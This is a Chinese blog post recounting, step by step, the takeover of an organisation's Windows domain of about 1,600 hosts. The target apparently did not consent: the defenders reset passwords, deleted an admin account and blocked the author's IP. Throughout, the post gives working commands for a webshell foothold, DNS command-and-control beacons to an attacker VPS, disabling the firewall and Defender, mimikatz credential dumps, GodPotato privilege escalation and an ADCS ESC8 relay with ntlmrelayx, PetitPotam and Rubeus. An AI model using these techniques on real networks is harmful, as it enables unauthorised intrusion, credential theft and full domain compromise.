# 1.6K主机全域沦陷实录：从单点突破到域控接管的终极横向渗透链-先知社区

> **来源**: https://xz.aliyun.com/news/17774  
> **文章ID**: 17774

---

### 一、WEB打点

这是一次很普通但又很幸运的渗透过程，某次闲来无事跟好兄弟在某网站进行渗透测试，发现该网站属于某CMS，然后我们紧接着就搜索到该CMS存在文件上传漏洞。然后，我跟好兄弟立马复制了数据包进行测试，发现成功jsp文件。（这里浅浅放一张打了很多码的图片，毕竟漏洞细节还是不公布了）



然后马不停蹄的赶紧上传了一个webshell上去，使用工具连接，因为前期信息收集我们知道了使用Tomcat中间件，因为特性原因，所以不用看都知道，一定是我最喜欢的最高权限，但是这里我们还是使用了命令查看。whoami -> nt authority\system，立马又来了一个 ipconfig /all 发现存在域环境。



到这里好兄弟跟我哈喇子都快流出来了，平时都是只能打打靶场过过瘾，这次终于能实战一波了，行了废话不多说，我们直接进入域渗透。

### 二、域渗透

确定是域环境后，我们也没有闲着，还是进一步的信息收集，最后确认确实存在域环境

```
输入以下命令确认是否存在域环境
net time /domain  
net view
等等一些命令
```



然后我们尝试ping <www.google.com> 发现机器不出网，这时候有点难搞了。思考了很久，想出来两种解决方法，一种是基于HTTP隧道让机器上线到我们CS（这里我尝试了很久都没有成功，所以就不写了，有需要的好兄弟可以看看这篇文章，写的很不错。[不出网的内网域渗透](https://mp.weixin.qq.com/s/rpXT6wfujKDqMXG5AM4WGw)），另外一种就是使用DNS协议上线CS。



步骤一：购买vps以及域名并配置记录

```
第一步：先配置一个A记录  让A记录 -> vps的公网地址

第二步：创建NS记录  让 NS记录 ->  A记录的域名  （最好创建两个）

配置完成后需等待5-10分钟才能生效
```





步骤二：创建好之后使用ping 命令来ping A记录 如下表示配置成功



步骤三：然后使用nslookup 功能 来查看A记录是否成功 如下图： （需要注意必须打开CS，否则有可能不会出现非权威应答）



步骤四：打开CS然后创建一个DNS协议的监听器 配置中的DNS Host都为A记录的地址



最后生成木马即可。当然还是需要做一下免杀的！

当完成配置之后，肯定需要最目标机器做一波信息收集，收集一下对方机器安装了哪些杀软，然后输入 tasklist /svc 即可。最后把内容复制出来放到杀软识别网站上进行识别。



本来识别出来一个哨兵一号杀软和微软自带的杀软，由于一些原因，这里没有显示。当识别出来杀软之后就需要跟据杀软来进行免杀操作了，这里由于作者没有合适的免杀工具，所以没有做免杀。

```
输入命令 netstat -ano | findstr 3389  ->   发现对方没有开启远程连接

wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1   开启远程3389

再次输入 netstat -ano | findstr 3389   发现成功开启。

再次使用命令 关闭全部防火墙：netsh advfirewall set allprofiles state off
```



```
然后由于对方不出网的限制，所以我们这里上传的http的流量隧道，此时通过流量隧道，我们成功连接到
对方主机的远程登录界面。  ->  然后使用我们创建的 administrator权限登录主机  并关闭Windows Defender
```



随后就是让主机上线到CS上并对域环境进行信息收集，因为CS上面插件比较多，做起来还是比较方便的，所以我们还是需要进行CS的上线，需要注意的是这里必须生成带Stageless的，因为Stageless的exe是完整的木马，而普通的还需要远程下载一些配置，所以要选择带Stageless的。（但是这里我不知道什么原因没有成功上线）。最后还是运行的poweshell命令成功上线。

```
需要注意的是：
使用dns协议上线的时候必须执行以下命令

checkin  是指Beacon 回连主机，回传受害系统的元数据，准备好进行任务数据通讯的状态。
mode dns-txt

# 使用 Beacon 的模式命令来改变当前 Beacon 的 数据通道。 
mode dns-txt   是 DNS TXT 记录数据通道。DNS TXT 记录是默认的数据通道。
```



成功上线。然后接着做信息收集，毕竟渗透的本质也就是信息收集。然后这里我想上传fscan进行扫描的，不知道为什么上传不上去，只要上传文件，这个木马就会掉。（推测可能是dns协议不是很稳定，不能太大流量）这里原因不是很清楚，有认真阅读的大佬，看到这里一定要评论告诉我原因。--.--

虽然CS没法上传文件，但是我们还是使用一些插件中的命令来进行了信息收集。发现了一台主控制器以及12台辅助控制器。看到这里想想这个域环境里面的机器一定少不了。同时渗透的难度也肯定不小。



到这里，心想既然无法上传文件进行信息收集，倒不如直接上“寻血猎犬”收集，我俩一拍即合，一个使用fscan对所有网段进行收集，一个使用猎犬进行收集。

不得不说Fscan是个好东西，使用它扫描出来很多好东西，帮我们理清那个主机名称以及对应的IP，还有哪些IP有web服务。同时还发现了一个linux主机的弱口令，但是我上去之后没有什么发现，而且也找不见文件放哪里了。由于fscan扫描了很多，这里我就浅浅放一张截图把。



然后我们又把寻血猎犬收集到的内容使用平台进行了分析。发现存在11个域管理员，好家伙，第一次实战就碰见硬骨头。差点给劝退了！



然后我们又尝试查看DCSync路径、到域管的最快路径等待，发现都没有数据。到这里想我这样的小白心已经凉一半了。毕竟是个小白能力有限，不想大佬们总是能在一点点线索中顺藤摸瓜找到思路。

不过我也是没有灰心，我把拿到权限的那台主机标记为以拥有之后，查看了 “来自自有主体的最短路径”

分析出当前主机内存中存在三个凭据，然后通过第一个RAMAK**\*用户最后能获得PHQ**以及FIN\*\*两台主机。



有了思路，那就继续开干，想着先拿下这两台机器，然后再从这两台机器入手，看看能不能找到什么蛛丝马迹。然后直接把mimikatz上传到被控主机上，进行读取明文密码。

```
C:/****> mimikatz.exe
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

     * Username : Rama***
     * Domain   : PETR***
     * Password : Oli1***

     * Username : Bens***
     * Domain   : PETR***
     * Password : Giob***
```

到这里咱们成功拿到Rama**\*账户的密码，然后就当我们在进行横向移动准备拿下PHQ**以及FIN\*\*两台主机的时候，出现了意外，“密码不正确”，看来被人修改了。当时作者天都塌了，最后只能寄希望于BENSONP这条路径了。

随后，我转头我就开始分析Bens**这条路径，发现这条路径还是比较幸运的，我们发现BEN\***这个账户对WDL这台主机拥有绝对控制全新啊，而这台机器中又保存了PETRA***的凭据，这个账户又在PHQ用户组中，对HERM***有修改 密码权限，最后可以拿下域控，分析到这里，我又复活了，感觉自己有行了。



然后拉着好兄弟就赶紧往下渗透，当我横向移动到WDL这台主机之后才彻底傻眼，这台主机也有杀软，可恶的哨兵一号。既有杀软，也没有system权限，没法提权拿到凭据，我彻底伤心了。（毕竟能力有限）

索性直接休息了一周，一周之后在我远程登录的时候发现其他用户这里多了一个，猜测这段时间有人登录了，然后重新读取密码，然后发现了留下的JOHAN\*\*这个凭据，因为后续没有在收集了，所有上图中没有。然后我们把拿到的这个账户表示为以获得，然后重新分析路径。最后点击从 “自有主体到域管的最短路径”，发现了存在两条路径。





然后第一条路径，CUL这个组是CDM的本地管理员，然后我想这可以登录这台主机，然后在获取凭据最后登录域管。

第二条就是上面分析的那个。通过两个一对比，想了想还是第一条比较简单，然后试着用JOHAN\*\*用户准备横移到CDM，结果发现失败。然后到这里就没有头绪了，眼看马上到手的胜利，想想都开心。思考了很久没有好的方法，转头，请教了一位师傅。大佬直接告诉我可以尝试PTK攻击，另外顺手请教后续过程，毕竟免杀这块有点头大。

转天，我想自己试试PTK攻击，然后我就去尝试读取内存中的aes密钥，结果我真的是太幸运了，虽然没读取到aes密钥，但是我拿到了第二条路径的PETRA**\*用户的凭据，也就意味着我可以直接更改HERM**用户的密码从而拿到域管。



到这里，作者已经哈哈大笑了，只剩下一步就能拿到域控了。直接使用PETRA这个用户修改Rerman\*\*\*这个域管的账户的密码，在登录域控机器，基本就算完成了。

```
然后我登录PETRA***这个账户去修改密码

首先登录PETRA***这个账户 ->  然后输入下面命令进行修改   

net user  username   password  /domain

输入完之后，结果提示这个！！！！！
我tm是真服了，这安全意识是真高，前脚刚给了我账户的凭据，后脚就把那个域管理员给删除了，真的没谁了。
```



当时我直接破大防了。这还没半个月呢这个域管就被删了，我只想问候他祖宗。然后气的博主，直接大晚上在使用猎犬 收集一波，重新使用新数据进行分析。



重新分析出来这条路径之后，事不宜迟立马横移到FIN这台主机上，使用tasklist /svc 查看发现这台机器没有防护，感觉时来运转了，立马进行信息收集提权。

```
使用systeminfo  命令对系统补丁以及系统版本号进行识别

把结果放到提权识别网站上识别，并没有发现可用得exp

然后在网上搜索了一波，发现一个可用得exp

执行whoami /priv命令，当前用户拥有SeImpersonate特权，说明大概率可以直接使用Potato土豆系列的Exploit进行提权

然后去github上下载了一个GodPotato 也是成功提权 

参考文章：https://mp.weixin.qq.com/s/Au1Eb_5o5_uE3QcEylT0kA
```



发现有SeImpersonate特权之后，立马使用GodPotato土豆提权，成功拿到System权限。



随后就是正常得读取凭据，但是坑爹得玩意儿，凭据过期了，读取下来得凭据中没有KACE\_DC这条账户信息，天要塌了。。。。



不是吧，哥们。直接给我干傻眼了，走一条，一条不通。


借用师傅得话来说就是我纯纯再给人家做安全检测，这给我整笑了。其实在最后这段打的过程中，还是被发现了，大半夜直接把我IP给封了。然后没打下来就请教了师傅。师傅看了一眼，说“管理员把GPO和ACL玩明白” 可以看看委派属性啥的，毕竟目前技术还是个小白，分析不出来。

### 三、打穿域控

差不多过了很久，中间思考了很多姿势，想着通过mssql拿到master文件，读取sa用户hash，破解密码然后提权拿凭据，但是发现这条路很难通，毕竟hash太难破解了。

所以又把之前收集到的信息捋了一遍，看到了fscan扫出来一条漏洞。如下图

这是一个ADCS证书服务器的漏洞叫ADCS-ESC8。然后知道了漏洞之后，立马验证一下是否存在。

curl http://10.\*.\*.67/certfnsh/certfnsh.asp

去请求这个链接，显示 Unauthorized 以及NTLM 代码存在漏洞



具体的利用流程：利用PetitPotam对域控进行强制认证漏洞攻击，让域控向本地攻击机进行认证，攻击机监听收到来自域控服务器的NTML认证，使用中继攻击向ADCS的web服务申请DomainController证书，用申请的证书获取Kerberos票据，将自身伪装为高权限账户

然后我们接下来开始操作

1.首先我们需要使用攻击机监听收到来自域控服务器的NTML认证，因为设置监听必须要用到445端口，所以我们推荐使用linux进行操作。

```
因为设置监听必须要有内网的IP，但是我们没有，只能在域外攻击，所以我们这里需要
把端口转发到我们本地，还因为域内都是windows机器默认开启445端口
同时445端口需要从底层进行协议转发

所以这里我们先使用PortBender工具 先把内网机器的445端口转发到6445上
```



```
然后我们把445端口转发到6445之后，就需要把端口映射到我们本地的kali上面

这时候我们使用cs上自带的命令  来把本地的6445端口  映射到kali的445端口

rportfwd_local 6445 <kali IP> 445

这样就把内网中10.*.*.43的445端口的流量映射到了kali的445中了
```



这里的rportfwd\_local他是讲beacon主机的流量转发到本地局域网主机上的。



2.开启一个socks代理，然后并使用impact工具包中的ntlmrelay脚本开启本地监听

```
proxychains -q python3 ntlmrelayx.py -t http://10.*.*.67/certfnsh/certfnsh.asp -smb2support --adcs --template 'domaincontroller'

python3 ntlmrelayx.py -t http://IP/certfnsh/certfnsh.asp --adcs --template 'domaincontroller'
```



3.利用PetitPotam进行访问我们的中继服务器强行认证

```
proxychains -q python3 PetitPotam.py -d Pe*oup.local -u Petra**Repl -p 2hH***74 10.*.*.43 192.*.*.2

python3 PetitPotam.py -d 域名 -u 域内普通用户 -p 密码 域内端口转发IP 域控IP
```



4.到这里就算攻击成功了，等待中继监听回显，至此就拿到了域控的票据了



5.然后在使用Rebeus工具把票据导入

```
Rubeus.exe asktgt /user:域控hostname$ /certificate:导入我们获取的票据 /ptt

需要注意的是  user：这里的hostname  必须要跟上面图中获取的票据是一个主机，不然导入会出错
```



6.然后导入成功之后，我们使用mimikatz，将域内的所有hash全部导出，至此成功拿下整个域！



到这里，也是成功撸下整个域控，也算是小小拿下1.6k台主机的权限了。哈哈哈，是真的爽，对方好久不处理，突然拿下了，立马就给修复了。真实把之前的仇全给报了。可惜没有上线一个cs，让大家欣赏欣赏风景线，还是给大家放个图吧，好歹域内1.6k机器2k用户。也小小发个图证明一下，省的有小黑子。



嘻嘻，最后还有个问题，想问问各位大佬们，就是导出来哈希了，然后我也测试了几个我拿到密码的几个账户，口算了一下ntlm哈希，跟导出来的哈希一样，但是我使用域管的哈希制作票据了无法访问域控，很是纳闷。有懂的师傅评论告我一声，还有就是pth的时候都需要lm哈希，但是导出来的都是ntlm哈希。这个怎么进行横移呢？

最后，祝看到这里的大佬小佬们，技术蹭蹭涨，钱包鼓鼓！（最后说明，我不是黑客，我只是个会用脚本的吗喽！）
